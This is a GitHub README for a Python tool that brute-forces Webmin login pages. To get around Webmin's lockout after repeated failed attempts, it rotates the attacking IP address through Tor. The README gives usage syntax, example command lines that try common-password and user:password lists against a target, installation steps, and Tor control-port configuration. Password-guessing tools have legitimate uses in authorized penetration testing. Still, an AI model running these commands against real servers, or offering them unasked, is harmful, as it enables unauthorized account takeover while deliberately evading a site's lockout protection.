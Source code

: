 # Bruteforce Webmin websites

This script allows to bruteforce Webmin, which by default blocks the IP address after some attempts, by rotating the IP address using Tor.

## Usage and examples

```
python3 webmin_bruteforce.py -t TARGET [-u USER] [-U USER_LIST] [-p PWD] [-P PWD_LIST] 
[-UP USERPWD_LIST] [-tp TOR_PASSWORD] [-r RETRIES_PER_IP]
```

To use Tor you must set the *-tp* parameter, or it will not rotate the IP address. By default it tests 3 passwords per IP, but you can change the number with the option *-r*.

You can test a single user (*-u*) or user list (*-U*), single password (*-p*) or password list (*-P*) or a user:password list (*-UP*)

Examples:

- **python3 webmin_bruteforce.py -t https://website.com:10000 -u admin -P 500-most-common.txt -tp test123** - Test the 500 most common passwords against user "admin" rotating the IP address every 3 attempts (default value)
- **python3 webmin_bruteforce.py -t https://website.com:10000 -U users.txt -P passwords.txt** - Test a list of users and a list of passwords without rotating the IP with Tor
- **python3 webmin_bruteforce.py -t https://website.com:10000 -UP user_pass.txt -tp test123 -r 2** - Test a user:password list rotating the IP address every 2 attempts


![image](images/image1.png)



## Installation

```
git clone https://github.com/ricardojoserf/webmin-tor-bruteforce
cd webmin-tor-bruteforce/
pip3 install stem pysocks
apt install tor
```

## Using Tor

To use Tor to change the IP for every request, you must hash a password:

```
tor --hash-password test123
```

In the file /etc/tor/torrc, uncomment the variable *ControlPort* and the variable *HashedControlPassword*, and in this last one add the hash:

```
ControlPort 9051
HashedControlPassword 16:7F314CAB402A81F860B3EE449B743AEC0DED9F27FA41831737E2F08F87
```

Restart the tor service and use this password as argument for the script ("-tp test123" or "--tor_password 123")

```
service tor restart
```
